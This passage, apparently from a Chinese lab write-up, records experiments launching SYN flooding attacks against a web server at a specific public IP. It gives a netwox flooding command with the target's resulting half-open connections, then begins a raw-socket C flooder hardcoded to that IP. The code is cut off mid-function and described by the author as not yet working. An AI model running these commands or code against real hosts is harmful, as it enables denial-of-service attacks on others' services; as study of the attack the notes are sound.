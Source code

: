 <br>

## 4. 使用拥有公有IP的服务器向目标发起SYN flooding攻击

所以我用另一台服务器(有公有IP，34.92.249.231)，重复上面的实验， `Foreign Address`还是IP相同，端口不同。这是为什么呢？**难道服务器也走NET地址转换？**

```shell
--SYN flooding命令
sudo apt install netwox
sudo netwox 76 -i 49.234.233.219 -p 80 -s raw
--目标服务器结果
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      5045/nginx: master  
tcp        0      0 172.17.0.4:80           34.92.249.231:26490     SYN_RECV    - 
tcp        0      0 172.17.0.4:80           34.92.249.231:34884     SYN_RECV    - 
```

<img src="syn_flooding.assets/服务器的私有IP.png" alt="公有ip的syn_flooding" style="zoom: 80%;" />

<br>

## 5. 自行构建代码发起SYN flooding

下面的程序，有问题，`tcpdump`抓取不到内容。我目前不知道问题在哪。

```shell
sudo tcpdump -nn  dst 49.234.233.219 and port 80 -s0 -c 3
```

```c
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <errno.h>
#include <netinet/tcp.h>
#include <netinet/ip.h>
#include <time.h>
#include <unistd.h>

#define DEST_IP "49.234.233.219"
#define DEST_PORT 80
#define PACKET_LEN 1000

// 我从网上找了一份计算校验和代码
// TCP:首部和数据校验和，整体长度；IP:首部校验和，首部长度：ihl；
unsigned short in_cksum(unsigned short *addr, int len)
{
```